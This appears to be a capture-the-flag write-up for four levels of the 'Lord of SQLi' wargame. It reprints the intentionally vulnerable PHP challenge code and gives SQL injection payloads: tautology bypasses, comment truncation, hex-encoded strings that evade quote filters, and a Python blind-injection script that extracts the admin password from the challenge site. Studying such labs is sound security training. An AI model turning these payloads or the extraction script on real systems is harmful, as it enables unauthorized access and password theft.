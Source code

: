 # Lord of Sqli - Writeups

# Level 1 - Gremlin

## Source Code

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

Query :  **select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'**

Here we don’t know the password . So here we just need the query to return 1 row . So we can give 

id as 1 and in the password field we can give ‘ OR ‘1’=’1 .

**Payload** : **id=1&pw=’ OR ‘1’=’1**

# Level 2 - Cobolt

## Source Code

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

Query : **select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')**

Here we can the id returned from the query should be admin . So we can give id as admin’;— -

**Payload** : **id=admin’;— -**

# Level 3 - Goblin

## Source Code

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Here quotes are being blocked .

```php
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
```

Here it the level will be solved if we fetch the row with id = admin but in the query the id is already set to guest, we cannot change that our injection is at no . So if we give something like -1 OR id=’admin’ . 2 rows will be returned the row with id = guest and id = admin . But here quotes in blocked . But fortunately mysql supports strings to be given in hex without quotes .

**Payload : 1 OR id=0x61646D696E;-- -**

# Level 3 - Orc

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
Here we can get the actual password using a blind sql Injection . 

###Exploit Script 

```python
import requests

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGJIJKLMNOPQRSTUVWXYZ1234567890'

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
h = {
    "Cookie" : 'PHPSESSID=r4j44kshvu8qe7nk1kfaq1bddb'
}
pw = ''
index = 1
for i in range(100):
    q = f"?pw=' or id='admin' and length(pw)={str(i)};-- -"
    r = requests.get(url+q,headers=h)
    if 'Hello admin' in r.text:
        print(f'Length of password : {str(i)}')
        break


while 1:
    for i in letters:
        q = f"?pw='  or id='admin' and pw like '{pw}{i}%';-- -"
        r = requests.get(url+q,headers=h)
        if 'Hello admin' in r.text:
            index += 1
            pw += i
            break
        print(q)
        print(f'Password : {pw}{i}',end='\r')
```
